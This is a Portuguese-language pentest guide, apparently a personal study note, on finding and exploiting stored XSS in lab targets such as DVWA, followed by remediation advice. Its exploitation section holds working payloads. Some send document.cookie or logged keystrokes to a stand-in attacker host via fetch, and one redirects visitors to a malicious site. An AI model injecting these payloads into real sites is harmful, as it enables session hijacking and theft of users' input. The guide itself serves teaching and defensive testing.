 [[9 - VULN - XSS - Cross-site scripting (Stored)]]

## Procedimento: Teste de XSS Stored (Cross-Site Scripting Armazenado)

### Aviso

Este procedimento deve ser realizado apenas em ambientes controlados ou autorizados, como laboratórios de testes, plataformas CTF, ambientes DVWA, bWAPP ou aplicações desenvolvidas especificamente para fins educacionais. Nunca aplique em sistemas de terceiros sem permissão explícita.

---

### Objetivo

Demonstrar a exploração de uma vulnerabilidade do tipo XSS Stored, injetando um script malicioso que será armazenado no banco de dados da aplicação e executado automaticamente quando outro usuário acessar a página.

---

### Requisitos

- Ambiente web vulnerável (exemplo: DVWA, bWAPP ou app de testes com campos de entrada de dados).
    
- Navegador.
    
- Permissão para testar ou executar o procedimento em um ambiente isolado.
    

---

### Passo a passo

#### 1. Identifique um ponto de entrada de dados persistente

Procure áreas no sistema onde você possa **enviar dados que serão armazenados** e posteriormente **exibidos a outros usuários**. Exemplos:

- Campo de **comentários** em postagens ou produtos.
    
- Campo de **biografia/perfil de usuário**.
    
- Campo de **mensagens de fórum ou mural**.
    
- Campo de **nome do produto ou descrição**, em sistemas de administração.
    
- Campos de **formulário de contato** onde o conteúdo é exibido posteriormente em uma dashboard administrativa.
    
- Nome ou título de **arquivo enviado** que aparece na interface.
    
- Mensagens enviadas por chat e exibidas a outros usuários.
    

---

#### 2. Teste com HTML básico

No campo identificado, envie um conteúdo simples em HTML para verificar se a aplicação exibe o HTML sem sanitização:

```html
<b>Texto em negrito</b>
```

- Envie ou salve o conteúdo.
    
- Recarregue a página.
    
- Verifique se o texto aparece em negrito.
    

Se o HTML for interpretado pelo navegador, isso indica que o conteúdo não está sendo tratado corretamente. O sistema está aceitando e renderizando HTML arbitrário.

---

#### 3. Teste com payload XSS simples

Agora, envie um script simples para testar a execução de código:

```html
<script>alert("XSS Stored ativado")</script>
```

- Envie o conteúdo no campo.
    
- Recarregue a página (F5).
    
- Se o alerta for exibido, isso indica que o XSS foi armazenado com sucesso e executado no navegador — caracterizando uma vulnerabilidade do tipo **XSS Stored**.
    

---

#### 4. Simulação de ataque real

Você pode simular um ataque mais avançado, como roubo de cookies ou captura de dados, com uma payload como:

```html
<script>
  fetch("http://seuservidor.com/coletar?cookie=" + document.cookie)
</script>
```

Substitua `seuservidor.com` por um endereço controlado por você (como um servidor local com ngrok, netcat, Burp Collaborator, etc.).

Outros exemplos possíveis:

- Injetar um keylogger:
    
    ```html
    <script>
      document.onkeypress = function(e) {
        fetch('http://seuservidor.com/tecla=' + e.key);
      }
    </script>
    ```
    
- Redirecionar o usuário para outra página:
    
    ```html
    <script>window.location="http://site-malicioso.com"</script>
    ```
    

---

### Locais onde XSS Stored pode ocorrer (além de comentários)

1. Nome de usuário ou perfil.
    
2. Mensagem de chat persistente.
    
3. Biografia ou descrição pessoal.
    
4. Nome de produto ou categoria cadastrado no painel administrativo.
    
5. Nome ou descrição de arquivos enviados.
    
6. Campos de tickets ou chamados técnicos.
    
7. Mensagens de mural ou postagens de blog.
    
8. Relatórios ou logs exibidos em dashboards.
    
9. Campos de sugestão pública (caixa de ideias, fóruns).
    
10. Campos exibidos para outros usuários por meio de templates dinâmicos (ex: emails, alertas de sistema).
    

---

### Recomendações de correção

- Escapar caracteres especiais como `<`, `>`, `"`, `'`, `&`.
    
- Usar bibliotecas de sanitização (ex: DOMPurify no frontend ou HTMLPurifier no backend).
    
- Validar e limpar os dados no backend antes de armazenar.
    
- Implementar cabeçalhos de segurança como Content-Security-Policy (CSP).
    
- Desabilitar a renderização de HTML onde não for necessária.
